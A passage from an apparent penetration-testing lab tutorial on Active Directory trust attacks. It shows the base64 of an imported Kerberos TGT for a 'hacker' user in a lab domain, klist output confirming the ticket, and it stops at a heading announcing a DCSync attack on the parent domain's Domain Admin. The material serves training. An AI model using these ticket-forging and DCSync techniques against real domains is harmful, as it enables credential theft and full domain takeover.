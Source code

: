 ```powershell

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!
```
###### Once again, we can check that the ticket is in memory using the klist command.
## Confirming the Ticket is in Memory Using klist
  
```powershell
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```
###### Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the lab_adm Domain Admin user.
## Performing a DCSync Attack
  
